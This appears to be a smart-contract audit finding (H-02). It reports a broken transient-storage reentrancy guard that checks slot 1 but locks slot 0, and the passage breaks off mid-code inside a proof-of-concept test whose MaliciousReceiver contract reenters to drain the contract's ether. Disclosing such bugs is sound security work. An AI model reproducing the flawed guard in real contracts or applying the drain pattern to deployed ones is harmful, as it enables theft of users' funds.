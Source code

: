 ## <a id='H-02'></a>H-02. Ineffective Reentrancy Guard            



## Summary : The nonReentrant modifier using transient storage is incorrectly implemented, failing to protect against reentrancy attacks

## Vulnerability Details : The code checks `tload(1)` but sets the lock at `tstore(0, 1)`, using different slots. This means the check and the lock are on different storage locations, rendering the reentrancy protection ineffective.

```Solidity
modifier nonReentrant() {
    assembly {
        if tload(1) { revert(0, 0) }
        tstore(0, 1)
    }
    _;
    assembly {
        tstore(0, 0)
    }
}
```

## Impact : `High`. Functions using this modifier remain vulnerable to reentrancy attacks, which could allow draining of funds or manipulation of contract state.

## Tools Used

## Proof of concept : 

```Solidity
function testReentrancyVulnerability() public {
    // Setup a malicious contract that can reenter
    MaliciousReceiver attacker = new MaliciousReceiver(address(inheritanceManager));
    
    // Fund the inheritance manager
    vm.deal(address(inheritanceManager), 10 ether);
    
    // Owner sends ETH to the attacker
    vm.prank(owner);
    inheritanceManager.sendETH(1 ether, address(attacker));
    
    // Verify attacker was able to drain funds through reentrancy
    assertEq(address(inheritanceManager).balance, 0);
}

contract MaliciousReceiver {
    InheritanceManager target;
    uint256 count = 0;
    
    constructor(address _target) {
        target = InheritanceManager(_target);
    }
    
    receive() external payable {
        if (count < 10 && address(target).balance > 0) {
            count++;
            // Reenter and drain
```